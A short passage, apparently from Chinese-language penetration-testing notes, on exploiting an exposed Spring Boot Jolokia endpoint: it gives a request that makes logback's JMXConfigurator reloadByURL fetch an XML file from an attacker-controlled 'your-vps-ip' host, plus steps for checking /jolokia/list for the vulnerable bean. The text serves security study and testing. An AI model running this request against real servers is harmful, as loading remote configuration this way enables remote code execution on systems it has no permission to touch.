 ```
/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/example.xml
```



##### 利用实例

判断是否存在jolokia插件访问http://ip:port/jolokia/list 是否存在

![](media/4406018ebff3c7de7dd29c07d7e0ccc7.png)



在/jolokia/list 接口搜索关键字：

```
ch.qos.logback.classic.jmx.JMXConfigurator和reloadByURL
```

![](media/9fc925bb48d7fbc26191d101b9a9adab.png)

